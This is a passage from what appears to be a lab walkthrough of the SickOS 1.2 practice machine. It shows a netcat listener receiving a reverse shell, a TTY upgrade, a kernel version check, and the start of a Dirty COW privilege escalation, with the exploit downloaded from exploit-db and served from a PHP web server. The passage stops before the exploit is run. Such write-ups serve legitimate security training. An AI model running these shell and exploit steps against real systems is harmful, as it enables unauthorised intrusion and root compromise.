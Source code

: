 ![](/assets/images/sickos1.2/screenshot-4.png)

We have a shell as www-data user and we upgrade it to a TTY shell.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.173] 42540
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
 07:15:35 up 4 min,  0 users,  load average: 0.12, 0.34, 0.19
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@ubuntu:/$
```

We check the kernel version.

```console
www-data@ubuntu:/$ uname -a
uname -a
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 athlon i386 GNU/Linux
```

This kernel version is out to date, so it is vulnerable to kernel exploit.

## Privilege Escalation
### Kernel Exploit
**Method 1**

Dirty COW (Dirty copy-on-write) is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018.

We download the exploit, and start a php web server.

```console
root@kali:~$ wget https://www.exploit-db.com/download/40839 -O dirtyc0w.c

root@kali:~$ php -S 192.168.179.1:443
```

